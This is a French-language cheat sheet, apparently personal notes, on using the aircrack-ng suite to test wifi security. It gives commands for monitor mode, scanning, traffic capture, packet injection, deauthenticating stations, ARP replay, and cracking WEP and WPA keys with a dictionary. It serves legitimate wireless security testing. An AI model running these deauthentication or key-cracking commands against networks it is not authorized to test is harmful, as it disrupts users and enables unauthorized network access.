 aircrack-ng
===========

*aircrack-ng* est une suite logicielle permettant de tester la sécurité des réseaux sans-fil type 802.11 (wifi).

Un peu de vocabulaire :
* AP : Access Point
* STA : une station connectée à un AP
* essid : nom diffusé par l'AP.
* bssid : adresse MAC de l'AP

# Configuration
Pour voir les caractéristiques des interfaces wifi du système (on peut connaître par exemple les modes possibles : `AP` ou `monitor` par exemple) :
```
# iw list
```
ou
```
# iw phy phy0 info
```

Pour mettre l'interface `wlan0` en mode `monitor` :
```
# airmon-ng start wlan0
```

On peut fixer un canal d'écoute :
```
# airmon-ng start wlan0 9
```

Pour désactiver le mode `monitor` :
```
# airmon-ng stop wlan0mon
```

A noter que l'interface change de nom lorsqu'elle passe en mode `monitor` : `wlan0` -> `wlan0mon`


Pour tuer les process qui pourraient gêner le changement de mode :
```
# airmon-ng check kill
```

## Reconnaissance
Pour scanner les réseaux wifi disponibles :
```
# iwlist wlan0 scan
```

## Ecoute
Pour écouter (tous les réseaux) :
```
# airodump-ng wlan0mon
```

Pour spécifier en plus le *channel* et le *bssid* de l'AP cible et dumper la capture (les fichiers générés auront le préfixe `dump`) :
```
# airodump-ng wlan0mon -c 9 --bssid XX:XX:XX:XX:XX:XX -w dump
```

## Injection de paquets
Pour tester une injection de paquets :
```
# aireplay-ng -9 -e <essid> -a <bssid> wlan0mon
```

Pour dés-authentifier une station (option `-0`) :
```
# aireplay-ng -0 <nombre_de_req_envoyées> -c <station_mac_addr> -a <bssid> wlan0mon
```

Pour rejouer du trafic (après qu'une station ait créé du trafic légitime) :
```
# aireplay-ng --arpreplay -b <bssid> -h <station_mac_addr> wlan0mon
```

## Crack clé WEP
Le principe ici est de capturer suffisamment de trafic (des *IVs*). On peut rejouer des paquets si nécessaire pour générer plus de trafic.
```
# aircrack-ng *cap
```

## Crack clé WPA
Pour cracker une clé WPA avec un fichier de dictionnaire après avoir capturer un *4-way-handshake*. On peut dés-authentifier une station si nécessaire pour forcer sa ré-authentification.
```
# aircrack-ng -w dict.txt -b <bssid> dump.cap
```

## Sources
* https://linuxconfig.org/discover-hidden-wifi-ssids-with-aircrack-ng
* https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
* https://www.aircrack-ng.org/doku.php?id=newbie_guide
* https://doc.ubuntu-fr.org/aircrack-ng
